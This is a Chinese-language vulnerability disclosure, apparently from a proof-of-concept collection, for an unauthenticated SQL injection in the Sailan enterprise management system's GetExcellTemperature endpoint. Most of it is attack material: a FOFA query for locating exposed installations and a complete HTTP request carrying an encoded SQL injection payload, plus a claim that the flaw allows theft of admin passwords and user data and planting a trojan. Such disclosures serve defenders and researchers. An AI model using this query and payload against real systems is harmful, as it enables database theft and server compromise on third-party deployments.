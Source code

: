# 赛蓝企业管理系统GetExcellTemperature存在SQL注入漏洞

赛蓝企业管理系统 GetExcellTemperature 接口处SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```
body="www.cailsoft.com" || body="赛蓝企业管理系统"
```

## poc

```yaml
GET /BaseModule/ExcelImport/GetExcellTemperature?ImportId=%27%20AND%206935%20IN%20(SELECT%20(CHAR(113)%2BCHAR(122)%2BCHAR(112)%2BCHAR(106)%2BCHAR(113)%2B(SELECT%20(CASE%20WHEN%20(6935%3D6935)%20THEN%20CHAR(49)%20ELSE%20CHAR(48)%20END))%2BCHAR(113)%2BCHAR(122)%2BCHAR(113)%2BCHAR(118)%2BCHAR(113)))%20AND%20%27qaq%27=%27qaq HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407162014918.png)
